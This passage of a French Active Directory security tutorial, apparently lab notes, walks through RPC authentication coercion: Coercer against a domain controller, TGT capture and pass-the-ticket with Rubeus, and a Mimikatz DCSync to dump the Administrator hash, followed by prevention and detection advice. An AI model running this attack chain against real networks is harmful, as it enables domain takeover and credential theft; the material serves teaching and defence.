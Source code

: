    ```bash
   Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
   ```

   **Exemple de sortie :**

   ```
   [>] Pipe '\PIPE\lsarpc' is accessible!
   ...
   [>] Pipe '\PIPE\spoolss' is accessible!
   ...
   [+] All done!
   ```

4. **Capturer le TGT du DC sur WS001 avec Rubeus** :

   ```text
   [*] Found new TGT:
     User : DC1$@EAGLE.LOCAL
   ```

5. **Injecter le ticket capturé pour s’authentifier dans le domaine** :

   ```cmd
   .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
   ```

6. **Lancer une attaque DCSync avec Mimikatz** :

   ```cmd
   .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
   ```

---

### 🛡️ Prévention

Windows ne permet pas nativement de surveiller ou bloquer les appels RPC sensibles. Deux approches de prévention :

* **Pare-feu RPC tiers** : des outils comme le *RPC Firewall* de Zero Networks permettent d’auditer et de bloquer des fonctions RPC spécifiques.
* **Restriction des ports sortants 139 et 445** : bloquer ces ports sur les DC et serveurs critiques empêche le relai d’authentification vers les attaquants.

---

### 🔍 Détection

Détecter l’abus de coercition via RPC reste complexe sans solutions tierces :

* **Analyse des journaux de pare-feu** : les attaques réussies génèrent du trafic sortant inhabituel, souvent sur le port 445.
* **Détection des connexions bloquées** : bloquer les ports mentionnés empêche la réception de TGT et toute tentative génère une alerte utile.

---

### ✅ Conclusion

